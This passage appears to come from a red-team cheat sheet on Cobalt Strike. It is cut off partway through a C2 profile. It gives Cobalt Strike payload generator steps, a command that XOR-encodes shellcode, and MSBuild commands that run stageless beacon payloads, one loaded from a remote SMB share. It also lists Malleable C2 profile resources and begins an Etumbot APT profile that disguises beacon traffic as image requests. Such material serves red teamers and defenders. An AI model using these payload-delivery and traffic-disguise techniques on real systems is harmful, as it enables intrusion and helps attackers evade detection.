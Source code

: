 ### Custom Payloads

https://ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c

```powershell
* Attacks > Packages > Payload Generator 
* Attacks > Packages > Scripted Web Delivery (S)
$ python2 ./shellcode_encoder.py -cpp -cs -py payload.bin MySecretPassword xor
$ C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Windows\Temp\dns_raw_stageless_x64.xml
$ %windir%\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe \\10.10.10.10\Shared\dns_raw_stageless_x86.xml
```

## Malleable C2

* Cobalt Strike - Malleable C2 Profiles https://github.com/xx0hcd/Malleable-C2-Profiles
* Cobalt Strike Malleable C2 Design and Reference Guide https://github.com/threatexpress/malleable-c2
* Malleable-C2-Profiles https://github.com/rsmudge/Malleable-C2-Profiles
* SourcePoint is a C2 profile generator https://github.com/Tylous/SourcePoint

```powershell
set useragent "SOME AGENT"; # GOOD
set useragent 'SOME AGENT'; # BAD
prepend "This is an example;";

# Escape Double quotes
append "here is \"some\" stuff";
# Escape Backslashes
append "more \\ stuff";
# Some special characters do not need escaping
prepend "!@#$%^&*()";
```

Check a profile with `./c2lint`.

```powershell
#
# Etumbot Profile
#   http://www.arbornetworks.com/asert/2014/06/illuminating-the-etumbot-apt-backdoor/
#
# Author: @harmj0y
#
set sample_name "Etumbot";
set sleeptime "5000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/5.0)";

http-get {
    set uri "/image/";
    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*l;q=0.8";
        header "Referer" "http://www.google.com";
        header "Pragma" "no-cache";
        header "Cache-Control" "no-cache";
        metadata {
            netbios;
            append "-.jpg";
            uri-append;
        }
    }

    server {
        header "Content-Type" "img/jpg";
```
